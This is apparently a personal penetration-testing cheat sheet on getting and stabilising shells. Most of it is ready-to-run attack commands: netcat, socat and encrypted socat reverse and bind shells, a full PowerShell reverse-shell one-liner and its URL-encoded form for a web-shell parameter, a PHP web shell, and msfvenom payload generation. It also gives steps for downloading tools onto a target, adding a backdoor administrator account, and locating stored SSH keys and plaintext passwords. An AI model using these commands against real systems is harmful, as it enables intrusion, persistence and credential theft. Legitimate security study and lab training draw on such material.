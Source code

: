###### Tools
- `socat` like `netcat` but on "steroids"
-  `metasploit/multi/handler` module - like `socat` and `netcat`
-  `msfvenom` - payload generator for reverse and bind shells

###### Netcat
-  reverse shell - the attacker is listening for incoming connections (`nc -lnvp 8080`) and the the target sends a connection to our machine (`nc 10.10.13.49 8080 -e /bin/bash`)
-  bind shell - the target is listening for incoming connections (`nc -lvnp 8080 -e "cmd.exe" or "/bin/bash"`) and the attacker sends the the connection to the target (`nc machine_ip 8080`)

###### Netcat shell stabilization
- `python -c 'import pty;pty.spawn("/bin/bash")'`, `python2`, `python3`
- `export TERM=xterm` - gives access to term commands such as `clear`
- `CTRL + Z` , `stty raw -echo; fg`
-------
- `rlwrap nc -lvnp <port>`
----
- transfer a copy of a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the target machine. Set up a web server (`sudo python3 http.server 80`) and the target machine could get the binary with (`wget <LOCAL_IP>/socat -O /tmp/socat`). On a windows environment: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

###### change terminal tty size
Open another terminal and execute `stty -a`. Note down the values for rows and columns.
In your reverse/bind shell:
- `stty rows <number>`
- `stty cols <number>`

###### socat (reverse shell)
-  listen on port 8080: `socat TCP-L:8080 -`
-  to connect (windows): `socat TCP:<local-ip>:<local-port> EXEC:powershell.exe,pipes`, pipes options used for forcing powershell use unix style standard input and output
-  to connect (linux): `socat TCP:<local-ip>:<local-port> EXEC:"bash -li"`

###### socat (bind shell)
- linux target machine: `socat TCP-L:<port> EXEC:"bash -li"`
- windows target machine: `socat TCP-L:<port> EXEC:powershell.exe,pipes`
- tty technique:
	- `user@attack$ socat file:``tty``,raw,echo=0 TCP-L:4242`
	- `user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242`

###### socat encrypted shells
- generate a certificate in order to use encrypted shells: 
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
-  `cat shell.key shell.crt > shell.pem`
-  listen: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
-  connect: `socat OPENSSL:<local-ip>:<local-port>,verify=0 EXEC:/bin/bash`


![[unencrypted_reverse_shell_wireshark.png]]

![[encrypted_reverse_shell_wireshark.png]]

-  encrypted listener with tty technique: 
`socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:``tty``,raw,echo=0`  
- connect back to the listener: `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

###### Common Shell Payloads:
create a bind shell on a linux machine:
-  `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` with a [named pipe](https://www.linuxjournal.com/article/2156) . `<` used for redirect the contents of a file
-  connect: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` 
- windows (server) one liner: `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
-  [for more cool payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
###### msfvenom
- standard sytax: `msfvenom -p <PAYLOAD> <OPTIONS>`
- win x64 reverse shell in exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>` (ports below 1024 which are called **privileged ports** require a listener running with root privileges)
- `msfvenom --list payloads`

###### Metasploit multi/handler
- `msfconsole`
- `use multi/handler` , `options`
- `exploit -j`, the `j` flag is used to tell metasploit to run it as a backgroud **J**ob
- you can have multiple sessions, check`sessions`

###### WebShells
-  `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`, this will take the **GET** parameters in the url and execute it on the system using `shell_exec()`. the `<pre>` is used to format the text correctly.
- [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
- for windows machines, it is better to use shells generated by [[#msfvenom]] or obtain RCE (remote code execution) using a web shell, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument: `powershellpowershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22` (replace `<IP>` and `<PORT>`)

###### Next shells
-  [[ssh (secure shell)]] keys can be found on `/home/<user>/.ssh` to gain access to a user account. 
-  interesting cve: https://dirtycow.ninja/
-  On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`
-  Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.
- `net user <username> <password> /add`
- `net localgroup administrators <username> /add`

###### staged linux reverse shell
- `msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`
